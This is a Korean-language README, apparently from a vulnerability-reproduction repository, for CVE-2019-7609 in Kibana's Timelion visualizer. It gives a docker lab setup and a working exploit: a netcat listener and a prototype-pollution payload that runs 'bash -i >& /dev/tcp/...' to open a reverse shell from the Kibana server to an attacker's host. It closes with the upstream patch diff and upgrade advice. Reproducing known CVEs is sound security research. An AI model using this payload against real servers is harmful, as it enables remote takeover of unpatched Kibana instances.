


# CVE-2019-7609 (Kibana)

Kibana의 Timelion visualizer의 결함으로 인해 리모트 코드 실행이 가능한 취약성

## 환경구성 (docker)

1. 첨부된 docker-compose.yml 을 실행한다.
```
docker-comopse up -d
```
2. 브라우저에서 `http://127.0.0.1:5601`에 접속한다.


## Exploit

1. reverse shell을 준비한다. 
```
$ nc -lvp 6666
```
2. Kibana의 Timelion 화면에서 페이로드를 입력 후, 실행을 누른다.

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/<공격자서버IP>/6666 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

```

2. 왼쪽 패널에서 Canvas를 클릭한다. 
3. Kibana 서버에서 리버스쉘로 접속이 이루어진다 :)




## Patch

Kibana를 6.6.1 or 5.6.15 이상 버전으로 업데이트

### 수정된 소스코드

https://github.com/elastic/kibana/commit/3377f813a5d96ff466bdf7343ce161de24830ed4.patch

```patch
From 3377f813a5d96ff466bdf7343ce161de24830ed4 Mon Sep 17 00:00:00 2001
From: ppisljar <peter.pisljar@gmail.com>
Date: Wed, 16 Jan 2019 06:01:20 -0800
Subject: [PATCH] fixes

---
 .../core_plugins/timelion/server/series_functions/props.js      | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)

diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```

